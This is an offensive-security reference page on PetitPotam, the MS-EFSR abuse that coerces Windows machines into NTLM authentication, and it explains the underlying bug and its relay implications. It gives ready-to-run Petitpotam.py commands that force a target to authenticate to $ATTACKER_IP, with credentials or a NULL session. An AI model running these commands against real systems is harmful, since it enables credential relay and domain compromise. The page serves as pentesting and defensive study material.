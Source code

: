 # MS-EFSR abuse \(PetitPotam\)

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network \([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr)\) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc`, `\pipe\lsarpc`, `\pipe\samr`, `\pipe\lsass` and `\pipe\netlogon` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the SYSTEM account into creating an executable file of the attacker's choosing, hence providing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Gilles LIONEL](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication.

{% hint style="warning" %}
At the time of writing \(2021/07/20\), this bug has not been addressed by Microsoft.
{% endhint %}

## Practice

An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" \(available in C and Python\) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

{% hint style="info" %}
**Nota bene**: the coerced NTLM authentication will be made through SMB. This is important because it restricts the possibilites of [NTLM relay](../lm-and-ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMBv2 to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

{% hint style="success" %}
Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse \(printbug\)](ms-rprn.md), a NULL session could potentially be used to trigger that bug \(if allowed by the target\). This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.

```bash
Petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
```
{% endhint %}

## References

{% embed url="https://www.exploit-db.com/exploits/47115" %}

{% embed url="https://github.com/topotam/PetitPotam/blob/main/Petitpotam.py" %}

